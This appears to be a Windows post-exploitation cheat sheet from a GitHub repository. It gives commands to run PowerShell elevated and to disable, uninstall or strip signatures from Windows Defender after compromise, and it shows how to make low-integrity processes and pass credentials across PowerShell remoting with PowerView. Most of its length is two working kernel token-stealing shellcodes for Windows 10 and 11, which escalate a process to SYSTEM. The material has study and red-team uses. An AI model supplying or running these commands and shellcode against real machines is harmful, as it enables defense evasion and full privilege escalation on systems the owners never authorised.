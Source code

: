 # Windows

---

### Table of Contents
- [Run Powershell Elevated](#run-powershell-elevated)
- [Disable Windows Defender](#disable-windows-defender)
- [Creating low Integrity cmd](#creating-low-integrity-cmd)
- [Powershell Double Hop](#powershell-double-hop)
- [WinDbg Fu](https://github.com/ForsakenSystems/.github/blob/main/content/lost-and-found/expl/windbg.md)
- [Token Stealing Shellcode](#token-stealing-shellcode)

---

## Run Powershell Elevated
- Sometime is might be needed to start an elevated powershell from commandline

```powershell
# Directly from cmd
powershell -Command "Start-Process PowerShell -Verb RunAs"

# Start powershell first and than elevate
powershell
Start-Process PowerShell -Verb RunAs
```

## Disable Windows Defender
- In general (not directly working after compromise, even with system privileges )

```powershell
# use "query" to check status
sc stop WinDefend
```

- ... use one or more of these

```powershell
# Remove without reboot
Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet

# ... with reboot
Uninstall-WindowsFeature -Name Windows-Defender

# Disable real-time-protection
Set-MpPreference -DisableRealtimeMonitoring $true

# Exclude path
Set-MpPreference -ExclusionPath PATH_HERE

# Remove signatures
& 'C:\Program Files\Windows Defender\MpCmdRun.exe' -removedefinitions

# Disable application guard
Disable-WindowsOptionalFeature -FeatureName "Windows-Defender-ApplicationGuard" -Online
```

## Creating low Integrity cmd
- Creating cmd.exe with low integrity (here: from common cmd.exe, which runs by default as medium integrity)
- Same works for switching to high integrity, but this has to be done with elevated privileges: high > medium > low

```powershell
copy C:\Windows\System32\cmd.exe cmd_low.exe

icacls cmd_low.exe /setintegritylevel low

icacls.exe cmd_low.exe
	cmd_low.exe NT AUTHORITY\SYSTEM:(F)
	               BUILTIN\Administrators:(F)
	               PC\useer:(F)
	               NT AUTHORITY\SYSTEM:(I)(F)
	               BUILTIN\Administrators:(I)(F)
	               PC\user:(I)(F)
	               Mandatory Label\Low Mandatory Level:(NW)
```

## Powershell Double Hop
- PowerShell remoting does not allow to pass credentials, which might lead to the well known (kerberos) double hop problem
- In some cases it can be solved by doing the following (here: with powerview example executed from winrm session)

```powershell
# create credential object
$creds = New-Object System.Management.Automation.PSCredential('DOM\user', (ConvertTo-SecureString 'securePw' -AsPlainText -Force))

# use it
Get-DomainUser -AllowDelegation -AdminCount -Properties distinguishedname -Credential $creds
```

## Token Stealing Shellcode
- Simple token stealing shellcode (`masm` compatible)
- Windows 10
```asm
_TEXT	SEGMENT
    shellcode PROC
        mov rax, QWORD PTR gs:[0188h]
        mov rax, QWORD PTR [rax + 0b8h]
        mov rbx, rax
        __LOOP:
            mov rbx, QWORD PTR [rbx + 0448h]
            sub rbx, 0448h
            mov rcx, QWORD PTR [rbx + 0440h]
            cmp rcx, 04h
            jnz __LOOP
        __ADJUST:
            mov rcx, QWORD PTR [rbx + 04b8h]
            and cl, 0f0h
            mov QWORD PTR [rax + 04b8h], rcx
        __CLEANUP:
            mov rax, QWORD PTR gs:[0188h]
            mov cx, WORD PTR [rax + 01e4h]
            inc cx
            mov WORD PTR [rax + 01e4h], cx
            mov rdx, QWORD PTR [rax + 090h]
            mov rcx, QWORD PTR [rdx + 0168h]
            mov r11, QWORD PTR [rdx + 0178h]
            mov rsp, QWORD PTR [rdx + 0180h]
            mov rbp, QWORD PTR [rdx + 0158h]
            xor eax, eax
            swapgs
            sysretq
    shellcode ENDP
_TEXT	ENDS
END
```

- Windows 11 (adjusted `_EPROCESS`)
```asm
_TEXT	SEGMENT
    shellcode PROC
            mov rax, QWORD PTR gs:[0188h]
            mov rax, QWORD PTR [rax + 0b8h]
            nop
            mov rbx, rax
            nop
        __LOOP:
            mov rbx, QWORD PTR [rbx + 01d8h]
            nop
            sub rbx, 01d8h
            nop
            mov rcx, QWORD PTR [rbx + 01d0h]
            nop
            cmp rcx, 04h
            nop
            jnz __LOOP
        __ADJUST:
            ;int 3
            mov rcx, QWORD PTR [rbx + 0248h]
            and cl, 0f0h
            mov QWORD PTR [rax + 0248h], rcx
        __CLEANUP:
            mov rax, QWORD PTR gs:[0188h]
            mov cx, WORD PTR [rax + 01e4h]
            inc cx
            mov WORD PTR [rax + 01e4h], cx
            mov rdx, QWORD PTR [rax + 090h]
            mov rcx, QWORD PTR [rdx + 0168h]
            mov r11, QWORD PTR [rdx + 0178h]
            mov rsp, QWORD PTR [rdx + 0180h]
            mov rbp, QWORD PTR [rdx + 0158h]
            nop
            xor eax, eax
            swapgs
            sysretq
    shellcode ENDP
_TEXT	ENDS
END
```
